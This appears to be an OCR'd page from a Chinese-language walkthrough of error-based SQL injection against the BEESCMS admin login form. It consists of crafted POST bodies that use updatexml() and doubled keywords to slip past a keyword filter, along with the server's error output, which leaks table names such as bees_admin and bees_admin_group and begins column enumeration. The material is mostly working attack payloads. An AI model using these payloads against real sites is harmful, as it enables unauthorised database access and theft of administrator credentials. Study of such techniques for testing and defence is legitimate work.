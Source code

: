 user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name frfromom information_schema.tables whe where re table_schema like database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'information_schema.tables where table_schema like database())),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name frfromom information_schema.tables where table_schema like database())),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fr from om information_schema.tables whe where re table_schema like database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败Subquery returns more than 1 row<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema like database())),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fr from om information_schema.tables whe where re table_schema like database() limit0,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'limit0,1)),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema like database() limit0,1)),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fr from om information_schema.tables whe where re table_schema like database() limit 0,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~bees_admin'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema like database() limit 0,1)),1) #' limit 0,1

### 表名bees_admin

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fr from om information_schema.tables whe where re table_schema like database() limit 1,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~bees_admin_group'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema like database() limit 1,1)),1) #' limit 0,1

### 表名bees_admin_group

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like "bees_admin")),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

```
操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '&quot;bees_admin&quot;)),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like &quot;bees_admin&quot;)),1) #' limit 0,1


```
